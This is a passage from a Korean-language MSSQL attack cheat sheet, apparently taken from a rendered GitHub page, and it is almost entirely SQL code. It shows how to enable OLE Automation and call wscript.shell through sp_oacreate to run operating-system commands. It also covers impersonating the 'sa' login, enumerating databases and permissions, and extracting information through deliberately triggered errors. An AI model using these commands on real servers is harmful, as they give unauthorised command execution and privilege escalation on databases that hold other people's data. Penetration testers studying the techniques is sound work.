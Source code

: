 ```bash
# sp_oacreate를 통한 대안 (OLE Automation)
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE;

DECLARE @shell INT;
EXEC sp_oacreate 'wscript.shell', @shell OUTPUT;
EXEC sp_oamethod @shell, 'run', null, 'cmd.exe /c whoami';

# sp_oadestroy로 정리
EXEC sp_oadestroy @shell;

# CLR Assembly를 통한 명령 실행 (고급)
# (이는 DBA 권한과 더 복잡한 설정이 필요)
```

### 🚫 권한 부족시

```bash
# 현재 권한 확인
SELECT
    p.permission_name,
    p.state_desc,
    pr.name
FROM sys.server_permissions p
LEFT JOIN sys.server_principals pr ON p.grantee_principal_id = pr.principal_id
WHERE pr.name = user_name();

# 다른 데이터베이스 접근 시도
EXEC sp_msforeachdb 'USE [?]; SELECT DB_NAME(), USER_NAME()';

# 암시적 권한 확인
SELECT * FROM fn_my_permissions(NULL, 'SERVER');

# 다른 사용자로 가장 시도 (IMPERSONATE 권한 있는 경우)
EXECUTE AS LOGIN = 'sa';
SELECT system_user;
REVERT;
```

### 🔍 정보가 제한적일 때

```bash
# 메타데이터 수집
SELECT * FROM information_schema.tables;
SELECT * FROM information_schema.columns;

# 시스템 카탈로그 뷰 활용
SELECT * FROM sys.objects WHERE type = 'U';  -- 사용자 테이블
SELECT * FROM sys.procedures;                -- 저장 프로시저
SELECT * FROM sys.functions;                 -- 함수

# 에러 기반 정보 수집
SELECT 1/0;  -- 에러 메시지에서 정보 확인
SELECT CAST('text' AS int);  -- 형변환 에러
```

---